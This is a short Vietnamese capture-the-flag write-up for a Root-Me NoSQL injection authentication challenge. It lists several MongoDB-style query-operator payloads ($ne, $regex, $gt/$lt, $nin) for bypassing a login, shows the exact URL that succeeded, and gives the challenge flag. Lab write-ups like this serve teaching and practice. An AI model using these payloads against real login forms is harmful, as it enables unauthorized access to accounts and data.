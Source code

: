 # NoSQL injection - Authentication

## Đề bài

Link: [http://challenge01.root-me.org/web-serveur/ch38/](http://challenge01.root-me.org/web-serveur/ch38/)

![](sc.png)

![](view-web.png)

## Hướng giải

Đây là dạng NoSQL injection, ta tham khảo các payload [🔗tại đây](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass)

Một số payload thông dụng:

```
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

Ta thấy, với payload như sau, ta thu được flag:

> http://challenge01.root-me.org/web-serveur/ch38/?login[$gt]=admin&login[$lt]=test&pass[$ne]=1

![](result.png)

Vậy key là: `nosqli_no_secret_4_you`.